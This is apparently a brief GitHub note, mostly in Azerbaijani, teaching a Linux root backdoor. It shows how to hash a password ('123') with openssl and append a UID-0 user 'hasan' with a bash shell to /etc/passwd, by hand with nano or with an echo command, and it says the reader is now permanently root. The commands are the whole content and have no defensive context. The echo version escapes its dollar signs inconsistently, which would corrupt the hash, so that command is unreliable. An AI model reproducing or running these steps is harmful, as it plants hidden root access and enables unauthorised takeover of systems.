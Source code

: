     nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       
    hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
   
 


  
   ## sen artiq ROOT'SAN
# The working mechanism of this is very similar to crontab
echo "hasan:\$1\$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
" >> /etc/passwd
